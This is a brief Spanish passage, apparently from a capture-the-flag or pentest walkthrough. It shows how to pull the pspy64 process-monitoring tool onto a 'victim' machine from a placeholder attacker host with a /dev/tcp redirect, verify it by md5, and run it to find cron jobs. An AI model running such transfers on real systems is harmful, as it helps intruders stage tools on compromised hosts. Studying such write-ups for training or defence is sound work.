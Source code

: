 Ahora, lo que debemos hacer en la máquina víctima es ejecutar este comando para así descargar el archivo de la máquina atacante:

```bash
cat < /dev/tcp/ip_atacante/puerto > pspy64
```

Ahora solo verificamos si los son iguales con el uso de `md5`.

![[Pasted image 20240225203844.png]]

Listo, todo está correcto.

Ahora solo queda dar permisos de ejecución y ejecutarlo.

![[Pasted image 20240225204013.png]]

Perfecto, ahora podemos ver todos los procesos que se están ejecutando y así detectar las tareas cron en ejecución.
